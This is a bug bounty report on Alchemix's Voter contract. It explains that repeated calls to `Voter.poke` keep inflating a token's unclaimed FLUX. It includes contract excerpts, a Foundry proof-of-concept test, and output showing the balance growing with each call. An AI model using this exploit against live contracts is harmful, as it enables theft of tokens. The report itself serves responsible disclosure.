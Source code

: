 
# Malicious user can steal FLUX token by abusing `Voter.poke`

Submitted on May 17th 2024 at 22:21:25 UTC by @jasonxiale for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31386

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
Malicious user can steal FLUX token by abusing `Voter.poke`

## Vulnerability Details
In [Voter.poke](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195-L212) funciton, there is not limitation how many time it can be called within one epoch, and at the end of the function, `Voter._vote` is called.
```solidity
195     function poke(uint256 _tokenId) public {
	...
211         _vote(_tokenId, _poolVote, _weights, _boost);
212     }
```

In [Voter._vote](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412-L455), `IFluxToken(FLUX).accrueFlux(_tokenId);` is calle to accrue Flux token in [Voter.sol#L423](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L423)

And in [FluxToken.accrueFlux](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188-L192), the function will check the amount of claimable flux and than update `FluxToken.unclaimedFlux`
```solidity
187     /// @inheritdoc IFluxToken
188     function accrueFlux(uint256 _tokenId) external {
189         require(msg.sender == voter, "not voter");
190         uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
191         unclaimedFlux[_tokenId] += amount;
192     }
```

[VotingEscrow.claimableFlux](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L377-L385) is defined as:
```solidity
 377     function claimableFlux(uint256 _tokenId) public view returns (uint256) {
 378         // If the lock is expired, no flux is claimable at the current epoch
 379         if (block.timestamp > locked[_tokenId].end) {
 380             return 0;
 381         }
 382 
 383         // Amount of flux claimable is <fluxPerVeALCX> percent of the balance 
 384         return (_balanceOfTokenAt(_tokenId, block.timestamp) * fluxPerVeALCX) / BPS;
 385     }
```

__As we can see above, `claimableFlux` only calcuate the tokenId's voting power, it doesn't record if the Flux has been claimed already.__
So if a malicious user keep calling `Voter.poke`, his tokenId's unclaimedFlux will keeping increasing.


## Impact Details
Malicious user can steal FLUX token by abusing `Voter.poke`

## References
Add any relevant links to documentation or code



## Proof of Concept
Put the following code in `src/test/Voting.t.sol` and run
```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/0TbY2mhyGA4gLPShfh-PwBlQ3PDNUdL1 --fork-block-number 17133822 --mc VotingTest --mt testAlicePoke -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/Voting.t.sol:VotingTest
[PASS] testAlicePoke() (gas: 2564522)
Logs:
  getUnclaimedFlux:  1879449739964023604
  getUnclaimedFlux:  2799996511899518614
  getUnclaimedFlux:  3720543283835013624

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.59ms (1.90ms CPU time)

Ran 1 test suite in 1.29s (5.59ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

As we can see from the above output, every time Alice calls `Voter.poke`, her unclaimed Flux will increase.

```solidity
    function testAlicePoke() public {
        address Alice = address(0x11001100);
        uint256 tokenId = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory pools = new address[](1);
        pools[0] = alETHPool;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        hevm.prank(Alice);
        voter.vote(tokenId, pools, weights, 0);

        address[] memory poolVote = voter.getPoolVote(tokenId);
        assertEq(poolVote[0], alETHPool);

        // Next epoch
        hevm.warp(block.timestamp + nextEpoch);

        hevm.prank(Alice);
        voter.poke(tokenId);
        console2.log("getUnclaimedFlux: ", flux.getUnclaimedFlux(tokenId));

        hevm.prank(Alice);
        voter.poke(tokenId);
        console2.log("getUnclaimedFlux: ", flux.getUnclaimedFlux(tokenId));

        hevm.prank(Alice);
        voter.poke(tokenId);
        console2.log("getUnclaimedFlux: ", flux.getUnclaimedFlux(tokenId));
    } 
```